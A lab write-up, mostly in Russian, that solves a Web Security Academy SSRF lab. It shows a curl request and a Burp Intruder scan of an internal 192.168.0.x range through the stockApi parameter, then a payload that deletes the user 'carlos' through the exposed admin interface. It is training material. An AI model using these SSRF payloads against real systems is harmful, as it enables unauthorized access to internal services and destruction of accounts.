


# Lab: Basic SSRF against another back-end system

## Description

Level: `APPRENTICE`

This lab has a stock check feature which fetches data from an internal system.

> To solve the lab, use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port `8080`, then use it to delete the user `carlos`.

# Solution

Снова замечаем форму с SSRF-уязвимостью:

```bash
<form id="stockCheckForm" action="/product/stock" method="POST">
    <select name="stockApi">
        <option value="http://192.168.0.1:8080/product/stock/check?productId=2&amp;storeId=1">London</option>
        <option value="http://192.168.0.1:8080/product/stock/check?productId=2&amp;storeId=2">Paris</option>
        <option value="http://192.168.0.1:8080/product/stock/check?productId=2&amp;storeId=3">Milan</option>
    </select>
    <button type="submit" class="button">Check stock</button>
</form>
```

Снова попробуем использовать `curl`:
```bash
curl -s -X POST "https://0acc005a03750f2380c49abf008000e6.web-security-academy.net/product/stock" \
> -H "Content-Type: application/x-www-form-urlencoded" \
> -d "stockApi=http://localhost/admin"
<!DOCTYPE html>
<html>
<!--LAB_HEAD_START-->
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Basic SSRF against another back-end system</title>
    </head>
<!--LAB_HEAD_END-->
        <script src="/resources/labheader/js/labHeader.js"></script>
        <!--LAB_HEADER_START-->
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>Basic SSRF against another back-end system</h2>
                            <a id='lab-link' class='button' href='/'>Back to lab home</a>
                            <a class=link-back href='https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <!--LAB_HEADER_END-->
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                    </header>
                    <h4>Internal Server Error</h4>
                    <p class=is-warning>Could not connect to external stock check service</p>
                </div>
            </section>
        </div>
    </body>
</html>
```

Но в этот раз мы получили ошибку, значит
искомый нами сервис отсутствует на данном хосте
согласно описанию лабы, нам нужно найти
подходящий хост.

Поэтому переходим в `Burp` и настраиваем 
payload в `Intruder`

Запрос выглядит так:
```http
POST /product/stock HTTP/2␍
Host: 0acc005a03750f2380c49abf008000e6.web-security-academy.net␍
Cookie: session=tOHTvyXDqcnkbv8lQLS4E6oMx3sm7FtV␍
Content-Length: 96␍
Sec-Ch-Ua-Platform: "Linux"␍
Accept-Language: en-US,en;q=0.9␍
Sec-Ch-Ua: "Chromium";v="149", "Not)A;Brand";v="24"␍
Content-Type: application/x-www-form-urlencoded␍
Sec-Ch-Ua-Mobile: ?0␍
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/149.0.0.0 Safari/537.36␍
Accept: */*␍
Origin: https://0acc005a03750f2380c49abf008000e6.web-security-academy.net␍
Sec-Fetch-Site: same-origin␍
Sec-Fetch-Mode: cors␍
Sec-Fetch-Dest: empty␍
Referer: https://0acc005a03750f2380c49abf008000e6.web-security-academy.net/product?productId=2␍
Accept-Encoding: gzip, deflate, br␍
Priority: u=1, i␍
␍
stockApi=http://192.168.0.§1§:8080/admin
```

А пейлоад перебирает числа от 1 до 255.

В итоге на 92 и найдем наш сервис



Теперь отправим наш запрос в `Repeater`
и укажем такой `payload`: `stockApi=http://192.168.0.92:8080/admin/delete?username=carlos`

Вот лаба и решена:

